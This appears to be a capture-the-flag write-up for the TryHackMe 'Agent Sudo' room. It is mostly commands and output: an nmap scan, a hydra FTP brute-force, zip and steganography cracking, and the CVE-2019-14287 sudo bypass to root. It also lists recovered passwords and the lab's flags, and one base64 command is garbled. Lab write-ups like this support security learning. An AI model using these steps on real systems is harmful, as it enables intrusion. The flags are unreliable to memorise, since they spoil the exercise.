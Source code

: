 #Agent Sudo

https://tryhackme.com/room/agentsudoctf

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 04:35 EDT
Nmap scan report for agent-sudo (10.10.158.237)
Host is up (0.33s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.41 seconds
```
##Enumration
1. 3
2. 
```change user-agent by firefox add-on (user agent switcher to C)
user-agent
```
3. 
```by changing user agent
chris
```

##Hash Cracking and brute-forcing
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agent-sudo
```
1. found by using hydra
```
[21][ftp] host: agent-sudo   login: chris   password: crystal
```
2. 
```TO_agentJ
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
```bash
zip2john 8702.zip > forjohn
john --wordlist=/usr/share/wordlist/rockyou.txt forjohn 
```
```zip
alien
```
```To_agentR
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
```bash
echo QXJlYTUx > bas364 -d
```
```
Area51
```
3. 
```bash
steghide extract -sf cute_alien.jpg
Area51
```
```message.txt from cute_jpg.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
```
hackerrules!
```

##Capture the user flag
1. 
```bash
ssh james@agent-sudo
```
```user-flag
b03d975e8c92a7c04146cfa7a5a313c7
```
```by using google reverse image to search the Alien_autopsy.jpg
roswell alien autopsy
```

##Privilege Escalation

```firefox cve sudo
CVE-2019-14287
```
```bash
sudo -u#-1 /bin/bash
```
```root_flag
b53a02f55b57d4439e3341834d70c062
```
```a.k.a AgentR
DesKel
```
